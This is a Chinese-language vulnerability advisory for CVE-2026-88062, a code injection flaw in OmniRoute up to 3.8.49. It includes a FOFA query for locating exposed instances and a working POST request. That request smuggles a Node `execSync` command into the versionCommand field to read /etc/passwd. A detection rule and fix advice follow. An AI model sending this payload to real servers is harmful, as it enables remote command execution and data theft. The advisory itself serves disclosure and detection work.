

# OmniRoute-CVE-2026-88062代码注入

OmniRoute-CVE-2026-88062代码注入，攻击者可进行进行任意命令执行。

# 影响版本

OmniRoute <= 3.8.49

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：title="OmniRoute"

POC/EXP：

```
POST /api/acp/agents HTTP/1.1
Host: 127.0.0.1
Content-Type: application/json

{"id":"3911","name":"3911","binary":"node","versionCommand":"node -e \"process.stdout.write(require('child_process').execSync('cat /etc/passwd').toString())\"","providerAlias":"3911","spawnArgs":[],"protocol":"stdio","version":"","installed":true,"isCustom":true}
```



sonrt规则：

```
alert http any any -> $HOME_NET any (
    msg:"OmniRoute - /api/acp/agents 自定义Agent代码注入 (binary/versionCommand node -e execSync)";
    flow:to_server,established;
    http.method; content:"POST";
    http.uri;
        content:"/api/acp/agents";
        fast_pattern;
    http.content_type; content:"application/json";
    http.request_body;
        content:"versionCommand"; nocase;
        content:"node -e"; distance:0; nocase;
        content:"child_process"; distance:0; nocase;
        content:"execSync("; distance:0; nocase;
        content:"spawnArgs"; distance:0; nocase;
    metadata:
        service http,
        affected_product "OmniRoute <=3.8.49",
        cve "CVE-2026-88062",
        vulnerability_type "Code Injection / Remote Code Execution",
        severity "critical";
    classtype:web-application-attack;
    sid:1000742;
    rev:1;
    priority:1;
)
```

# 漏洞修复

关闭互联网暴露面或接口设置访问权限，升级至安全版本。
